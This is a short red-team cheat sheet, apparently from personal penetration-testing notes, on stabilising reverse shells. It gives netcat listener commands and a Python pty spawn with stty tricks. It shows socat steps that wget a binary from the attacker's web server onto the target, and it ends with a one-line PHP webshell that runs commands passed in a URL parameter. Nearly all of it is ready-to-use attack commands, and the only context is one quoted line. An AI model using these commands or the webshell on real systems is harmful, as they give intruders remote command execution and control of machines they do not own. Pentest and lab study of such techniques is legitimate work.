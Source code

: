 ```yaml
---
category:
  - redteam
---
```

!!! info "Info"
	"Reverse shells _allow attackers to open ports to the target machines, forcing communication and_ enabling a complete takeover of the target machine." -[Imperva](https://www.imperva.com/learn/application-security/reverse-shell/)
# Stabilization
## TTY Size
In second terminal window, get rows & columns with `stty -a`, then set them in the remote shell with `stty {rows|cols} <number>`

## Netcat
Rlwrap: `rlwrap nc -lvnp <port>`
If Python is available:
```bash
sudo nc -lvnp 1234  # listen for connections on port 1234
python -c 'import pty;pty.spawn("/bin/bash")'   # start bash
export TERM=xterm
[Ctrl+Z]    # background the session
stty raw -echo; fg     # Stabilze and foreground the shell
```
## Socat
If Python is available:
```
# Start Python webserver on local machine
sudo python3 -m http.server 80
# Get a netcat shell
sudo nc -lvnp <port> 
# Download socat compiled binary to target machine
wget \{local IP}/socat -O /tmp/socat
```

# Basic Webshell
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
See `/usr/share/webshells` on Kali
